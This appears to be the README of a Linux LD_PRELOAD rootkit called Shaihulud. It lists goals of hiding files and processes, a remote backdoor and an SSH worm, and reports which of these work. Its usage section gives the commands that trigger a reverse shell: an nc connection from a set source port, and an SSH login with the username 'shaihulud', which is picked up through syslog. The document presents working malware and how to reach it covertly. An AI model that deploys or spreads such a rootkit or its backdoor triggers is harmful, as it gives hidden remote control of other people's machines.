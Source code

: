 # Shaihulud: A LD Preload rootkit for linux

## 1. Goals
		a. Hide files
		b. Hide processes
		c. Remote backdoor
		d. SSH Worm
## 2. Progress
		a. Files with the keyword "shaihulud" get hidden
		b. Not yet attempted
		c. The accept and write backdoors work
		d. Need to find a more stable way to get this working, but as a proof of concept it is somewhat usable

## 3. Usage
		After backdooring, the backdoors can be accessed via two methods.
		Method 1: accept hook
			Compares source port in order to start reverse shell.
		 	nc ip port -p source_port
			This will trigger the reverse shell
		Method 2: write hook
			Uses syslog to trigger reverse shell. The trigger lies in the ssh username field, the username gets written which will activate the write hook and start the reverse shell
			ssh shaihulud@ip will start the reverse shell
		
